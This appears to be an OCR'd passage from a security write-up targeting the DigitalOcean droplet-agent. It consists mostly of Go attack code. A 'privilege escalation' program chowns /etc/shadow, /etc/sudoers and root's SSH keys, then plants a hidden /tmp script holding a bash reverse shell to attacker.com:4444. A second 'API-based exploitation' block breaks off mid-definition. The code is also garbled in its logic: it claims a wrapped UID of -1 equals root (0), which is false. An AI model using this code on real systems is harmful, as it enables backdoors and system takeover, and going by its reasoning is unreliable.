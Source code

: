 ### Advanced Attack Scenario: Privilege Escalation
```go
// privilege_escalation.go
package main

import (
    "fmt"
    "os"
    "syscall"
    "github.com/digitalocean/droplet-agent/internal/sysutil"
)

func escalatePrivileges() {
    opsHelper := sysutil.NewOSOperationsHelper()
    
    // Target sensitive system files
    criticalFiles := []string{
        "/etc/passwd",
        "/etc/shadow",
        "/etc/sudoers",
        "/root/.ssh/authorized_keys",
    }
    
    // Use wrapped UID to get root ownership
    rootUID := uint32(4294967295) // Wraps to -1 → root (0)
    
    for _, file := range criticalFiles {
        if _, err := os.Stat(file); err == nil {
            err := opsHelper.Chown(file, rootUID, rootUID)
            if err != nil {
                fmt.Printf("Failed to change %s: %v\n", file, err)
                continue
            }
            fmt.Printf("Successfully changed ownership of %s to root\n", file)
        }
    }
    
    // Create backdoor
    backdoorScript := "/tmp/.system_update"
    os.WriteFile(backdoorScript, []byte("#!/bin/bash\nbash -i >& /dev/tcp/attacker.com/4444 0>&1"), 0755)
    opsHelper.Chown(backdoorScript, rootUID, rootUID)
    
    fmt.Println("Privilege escalation complete")
}
```

### API-Based Exploitation
```go
// api_exploit.go - Simulating malicious API response
package main

import (
    "encoding/json"
    "fmt"
    "github.com/digitalocean/droplet-agent/internal/metadata"
)

type MaliciousMetadata struct {
    FilePermissions []struct {
        Path string `json:"path"`
        UID  uint32 `json:"uid"`
        GID  uint32 `json:"gid"`
```